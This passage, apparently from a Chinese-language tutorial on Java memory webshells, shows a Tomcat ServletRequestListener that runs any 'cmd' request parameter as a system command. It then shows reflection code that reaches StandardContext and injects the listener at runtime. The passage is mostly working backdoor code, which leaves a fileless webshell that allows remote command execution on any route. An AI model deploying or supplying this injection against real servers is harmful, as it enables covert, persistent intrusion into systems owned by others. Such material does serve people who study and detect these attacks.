 ```java
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        
    }
}

```
在`requestInitialized`这个函数中，我们从`servletRequestEvent`参数中取cmd参数，在当前上下文只要在任意路由下监听到了cmd参数存在值，那么就执行命令，具体操作如下
```java
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
    if(cmd != null){
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {}
    }
}
```
注意，这里是无回显的
### 动态注入
在Helloworld这个Servlet中，获取context，并将listener添加进去，具体如下
```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
ListenerDemo listenerDemo = new ListenerDemo();
standardContext.addApplicationEventListener(listenerDemo);
out.println("inject success");
```
因为无回显，所以我们只能执行命令，如弹出计算器